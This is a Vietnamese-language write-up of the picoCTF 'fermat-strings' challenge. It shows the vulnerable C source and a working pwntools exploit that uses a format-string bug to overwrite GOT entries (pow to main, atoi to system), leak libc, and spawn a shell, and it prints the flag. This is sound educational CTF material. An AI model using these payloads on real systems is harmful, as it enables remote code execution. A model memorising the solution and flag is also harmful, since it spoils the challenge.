

# ***Challenge: fermat-strings***


## Source Code:
- Ta đc cung cấp cung cấp sẵn source của chương trình:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0;
  B[strcspn(B, "\n")] = 0;

  a = atoi(A);
  b = atoi(B);

  if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
  }

  char buffer[SIZE];
  snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
  printf(buffer);

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}
```
- Mô tả chương trình: chương trình cho ta nhập chuỗi A, B rồi chuyển nó thành số bằng hàm atoi, sau đó tạo chuỗi buffer bằng hàm snprintf dựa trên chuỗi A và B. Rồi in ra bufer. Sau đó nó tìm i = 1 -> 100 sao cho a^3 + b^3 = i^3 (ko quan trọng).

-> *Như vậy, ta dễ dàng thấy được có bug fomart string của lệnh printf(buffer) nên ta sẽ phải tận dụng khéo léo bug chính này.*

## Exploit:
- Ta kiểm tra các chế độ bảo vệ trước:
```sh
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
-> Nhận thấy Partial RelRO + format string thì bài này chắc chắn hướng đến việc ghi đè địa chỉ hàm got rồi.
**-> Như vậy, hướng khai thác: Ghi đè pow() -> đầu hàm main để thực hiện format string được nhiều lần. Sau đó leak libc_base để ghi đề hàm atoi thành system của libc. Cuối cùng ta chỉ cần gửi chuỗi /bin/sh để lấy shell.**

### Stage 1: Ghi đè pow thành main:

- Việc ghi đè khá đơn giản chỉ cần 2 byte cuối là oke. Ta chỉ cần lưu ý đầu payload phải là 1 số để qua được hàm atoi. 

```py
pow_addr = exe.got.pow
main = exe.sym.main & 0xffff

fmt = f"%{main - 20}c%14$hn".encode()
pl = b'1'
pl += flat(
	fmt.ljust(0x20-1, b"A"),
	pow_addr,
	)
p.sendlineafter(b"A: ", pl)
p.sendlineafter(b"B: ", b'1')
```

- Debug local Kiểm tra:
```sh
06:0030│-300 0x7ffe96528190 ◂— 0x4141414141414141 ('AAAAAAAA')
07:0038│-2f8 0x7ffe96528198 ◂— 0x4141414141414141 ('AAAAAAAA')
pwndbg> 
08:0040│-2f0 0x7ffe965281a0 —▸ 0x601040 (pow@got[plt]) —▸ 0x400837 (main) ◂— push rbp
09:0048│-2e8 0x7ffe965281a8 —▸ 0x72f65339400a ◂— 0x3000000000000
0a:0050│-2e0 0x7ffe965281b0 —▸ 0x72f653394a14 ◂— 0x5000500050000
```
-> Thành công, lưu ý ta phải - 20 để nhảy đúng vào đầu hàm main thì luồng thực thi của ta mới ko lỗi.

### Stage 2: Leak libc_base:
- Khi ta đã hàm đc vòng lặp main vô hạn, việc tiếp ta cần làm là libc_base:
- Ta sẽ leak libc bằng việc chèn thêm hàm puts got vào để leak, rồi quan sát 3 số cuối ở cả local và server:
```py
pl = flat(
	b'1'.ljust(8, b'a'),
	exe.got.puts
	)
p.sendlineafter(b"A: ", pl)
fmt = flat(
	b'2'.ljust(8, b'a'),
	b"%11$s"
	)
p.sendlineafter(b"B: ", fmt)
p.recvuntil(b"2aaaaaaa")
libc_leak = u64(p.recv(6) + b"\0\0")
log.info("libc_leak: " + hex(libc_leak))
```
- Kiểm tra:
```
local:
[+] Starting local process '/home/dinhduc/Documents/picoCTF/fermat-strings/chall': pid 6453
[*] libc_leak: 0x7686d3880e50
```
```
server:
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] libc_leak: 0x7fb327b545a0
[*] Switching to interactive mode
```
-> Khác nhau 3 số cuối lên ta sẽ buộc phải lên trang [libc database](https://libc.blukat.me/?q=puts%3A5a0%2Catoi%3A730%2Csetbuf%3Ac50%2Csnprintf%3Aee0%2Cread%3A130&l=libc6_2.31-0ubuntu9.1_amd64) lấy libc file libc giống của server.
- Sau khi tìm, ta tìm đc file này: *libc6_2.31-0ubuntu9.1_amd64*
- Ta patch với file bin để kiểm tra:
```sh
[┤] Starting local process '/home/dinhduc/Documents/picoCTF/fermat-strings/chall_patched': pid [+] 
[*] libc_leak: 0x7865fb5415a0
[*] Switching to interactive mode
```
-> Giống server, rồi giờ ta tính nốt libc_base với offset đc cung cấp trên web:
```
Symbol	    Offset	    Difference
atoi	    0x047730	0x0
system	    0x055410	0xdce0
snprintf	0x064ee0	0x1d7b0
puts	    0x0875a0	0x3fe70
```
```py
libc_leak = u64(p.recv(6) + b"\0\0")
libc_base = libc_leak - 0x0875a0;
log.info("libc_leak: " + hex(libc_leak))
log.info("libc_base: " + hex(libc_base))
```
```sh
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] libc_leak: 0x7fe7c85105a0
[*] libc_base: 0x7fe7c8489000
[*] Switching to interactive mode
```
-> Thành công libc đc libc_base.

### Stage 3: Ghi đè atoi -> system:

- Ta tiếp tục ghi đè atoi thành system như sau:
```py
system = libc_base + 0x055410

package = {
	(system & 0xffff) - 0x2e: exe.got.atoi,
	(system >> 16 & 0xffff) - 0x2e : exe.got.atoi + 2,
}

order = sorted(package)

pl = flat(
	b'1'.ljust(0x8, b"A"),
	package[order[0]],
	package[order[1]]
	)

p.sendlineafter(b"A: ", pl)

fmt = flat(
	b'1'.ljust(0x8, b'a'),
	f"%{order[0]}c%11$hn".encode(),
	f"%{order[1] - order[0]}c%12$hn".encode()
)

p.sendlineafter(b"B: ", fmt)
```
*Đây là kĩ thuật ghi đè got, bạn có thể tìm hiểu ở [GOT_overwrite](https://github.com/d1nhdwc/Binary_Exploitation/blob/main/Format%20String/6_got_attack/wu.md)

- Debug local kiểm tra:
```sh
04:0020│-310 0x7ffc1a30faf0 ◂— 0x4141414141414131 ('1AAAAAAA')
05:0028│-308 0x7ffc1a30faf8 —▸ 0x60105a (atoi@got[plt]+2) ◂— 0x7f5c2cf5
06:0030│-300 0x7ffc1a30fb00 —▸ 0x601058 (atoi@got[plt]) —▸ 0x7f5c2cf5b410 (system) ◂— endbr64 
07:0038│-2f8 0x7ffc1a30fb08 —▸ 0x7f5c2d20710a ◂— add dh, dh
```
-> Tuyệt vời.

- Cuối cùng, ta gửi chuỗi "/bin/sh" với chỗi A thôi. Lúc này atoi("/bin/sh\0") có vai trò system(b"/bin/sh\0"). 
```py
p.sendafter(b"A: ", b'/bin/sh\0')
```
```
$ ls
chall	 chall_patched	ld-2.31.so			libc.so.6
chall.c  Dockerfile	libc6_2.31-0ubuntu9.1_amd64.so	solve.py
$
```
-> Có shell tại local
- Gửi script lên server lấy shell thôi:
```sh
Welcome to Fermat\'s Last Theorem as a service
A: B: $ 
$ ls
flag.txt
run
$ cat flag.txt
picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}
$
```
***-> Đã chiếm được shell***

```Flag: picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}```

